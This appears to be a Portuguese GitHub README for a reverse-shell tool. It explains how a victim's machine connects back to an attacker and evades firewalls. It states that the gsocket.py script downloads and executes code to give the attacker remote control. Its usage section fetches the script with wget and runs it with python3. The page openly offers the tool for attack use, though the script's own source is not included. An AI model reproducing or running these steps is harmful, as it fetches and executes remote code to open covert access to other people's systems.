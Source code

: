 # Shell Reverso
![reverse-shell-1024x333](https://github.com/user-attachments/assets/7e5f5e5e-c7c3-4545-a0e9-ea1cfa534438)
Uma shell reversa é uma técnica de ataque onde a máquina vítima se conecta de volta à máquina do atacante, permitindo que o atacante execute comandos remotamente. A vítima geralmente inicia a conexão de saída, que pode passar despercebida por firewalls ou sistemas de segurança, pois é a máquina alvo quem "chama" o atacante. Esse tipo de ataque é utilizado para obter controle total sobre a máquina comprometida.
Este repositório contém um script que estabelece uma shell reversa com gsocket. Quando executado, o script baixa um arquivo de uma URL específica e executa o código, permitindo ao atacante acessar remotamente o sistema da vítima. A saída do script é redirecionada para output.txt,
O Gsocket permite que duas estações de trabalho em diferentes redes privadas se comuniquem entre si. Por meio de firewalls e por meio de NAT - como se não houvesse firewall
## Uso e Instalação
```bash
wget https://raw.githubusercontent.com/Freitaswrld/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```

![bandicam 2025-01-09 02-41-57-136](https://github.com/user-attachments/assets/303d977b-71e1-4974-a3ac-7ff91f49096f)
